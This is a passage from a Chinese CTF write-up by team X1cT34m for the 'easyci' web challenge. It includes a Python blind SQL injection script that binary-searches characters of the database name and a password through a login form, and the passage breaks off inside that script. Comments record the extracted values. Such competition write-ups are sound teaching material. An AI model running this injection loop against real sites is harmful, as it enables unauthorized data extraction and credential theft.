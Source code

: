 ```yaml
---
title: 纵横杯 Writeup by X1cT34m
date: 2021-01-04
image: 
description: 
categories: 
- ctf_writeup
tags:
- phar
- SQLi
---
```

## web

### easyci

考点：MySQL读写文件

![image-20201226234822836](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210104164407.png)

和巅峰极客的前端一样，而且发现也是布尔盲注，一阵狂喜；

fuzz一番竟然没有任何过滤

exp:

```python
#python3
import requests
import time

host = 'http://eci-2zegnayqf8pwz72ze2yw.cloudeci1.ichunqiu.com/public/index.php/home/login'

def mid(bot, top):
    return (int)(0.5*(top+bot))

def transToHex(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x', '')
    return res

def sqli():
    name = ''
    for j in range(1, 2000):
        top = 126
        bot = 32
        while top > bot:
            #babyselect = '(database())'#p3rh4ps
            babyselect = 'password'#c3762483bc73d0b7943156d43911ce38->HEIHEIHEIHEI
            #babyselect = ""
            payload = "0'||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            data = {
                "username": payload,
                "password": "1"
            }
            proxy = {"http": "http://127.0.0.1:8080"}
            try:
                r = requests.post(url=host, data=data, timeout=3, proxies=proxy)
                #print(payload)
                #print(r.text)
                if r.text.count('>密码错误<') == 1:
```
